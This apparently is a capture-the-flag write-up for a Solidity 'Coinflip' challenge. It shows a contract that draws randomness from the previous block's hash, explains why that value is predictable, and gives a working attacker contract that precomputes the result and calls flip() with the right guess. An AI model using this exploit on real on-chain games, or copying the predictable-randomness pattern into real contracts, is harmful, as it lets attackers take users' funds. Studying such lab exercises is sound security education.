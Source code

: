 ## Coinflip

### Contract

<details><summary>CLICK TO VIEW</summary>
<p>

```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

</p>
</details>

### Solution

Finally something mildly a challenge. I knew nothing about writing solidity code going into this, so getting the hang of remix ide (ew) and
the syntax was a step up in my game. Anyhow, I got through it with reasonable ease as I noticed the issue at hand at first glance:

```solidity
uint256 blockValue = uint256(blockhash(block.number.sub(1))); // This is static across the block. Not a true random. BIIIIIG mistake

if (lastHash == blockValue) { // Alright, so we have to do ONE transaction per block. Ughhhh
  revert();
}

lastHash = blockValue;
uint256 coinFlip = blockValue.div(FACTOR); // Not a true rando!!1!!1!
```

In a nutshell, if we were to proxy this call in the same block, we'd be able to "predict" the value of the coinflip and directly pass in the
right solution to the function.

So that's exactly what I did.

```solidity
contract CoinBye {
    using SafeMath for uint256;
    address public delegate;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() public {
        // Do nothing
    }

    function setAddy(address _delegate) public payable {
        delegate = _delegate;
    }

    function viewAddy() public payable returns (address) {
        return delegate;
    }

    function abuse() public returns (bool) {
        // Copy the exact formula from the contract
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;

        // Proxy it to our coinflip contract
        (bool status, bytes memory result) = delegate.call(
            abi.encodeWithSignature("flip(bool)", side)
        );

        // Return the result!
        return abi.decode(result, (bool));
    }
}
```


Annnnnd it works!
very pog indeed

